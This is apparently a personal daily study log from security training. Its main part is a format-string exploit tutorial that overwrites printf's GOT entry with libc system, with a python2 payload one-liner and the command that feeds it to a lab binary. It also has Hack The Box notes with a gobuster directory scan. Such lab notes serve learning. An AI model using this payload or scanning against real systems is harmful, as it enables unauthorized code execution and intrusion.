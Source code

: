 ```yaml
---
title:  "2022-07-03"
tags:
  - daily
  - engineer-training
  - hacking
programming-languagues:
created: 2022-07-03
---
```

# 2022-07-03
---
## Relaxation
- Most companies do **assembly** relaxation whereas we do **linker** relaxation.

The assembler typically works on one source at a time so it can't see anything that is related to other source code files whereas the linker can. The linker is the more general solution.

## 08
To find **libc** in a remote server: https://libc.blukat.me/ by using the leaked address, for example puts.

We can find the `GOT.printf` address in Ghidra, inside `.got.plt`. We can then write something at it.

### Tutorial
- Need to overwrite 0x0804c00c (`GOT.printf`) with 0xf7dff040 (`LIBC.system`).

- It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order) and 0xf040 (61504) @ 0x0804c00c (low order).

- Now, we have to figure out the value to set for the padding. Here is the formula :

```
[The value we want] - [The bytes alredy wrote] = [The value to set].            
```                                                                                  

- Let’s start with the low order bytes :                                        

It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

- Then, the high order bytes:                                                  

It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).                                                     

- Now we can construct the exploit (note our write offset is `%4` so we want `[%4,%5]` as offsets instead of `[%7,%8]`):

```
      \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.    
      \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
      %61496x will write 61496 bytes on the standard output.                                              
      %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
      %1951x will write 1951 bytes on the standard output.                                                  
      %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).
```                                                                                            

```python
  python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```                                                                                      

  * Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/

```bash
(cat payload; cat) | ./got_overwrite
```

## HTB - Explosion (Starting Point)
- Info on ports [here](https://www.speedguide.net/ports.php).

## HTB - Preignition (Starting Point)
- Dir busting:
```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u {ip}
```

## HTB - Bike (Starting Point)
Hacktricks guide ([here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))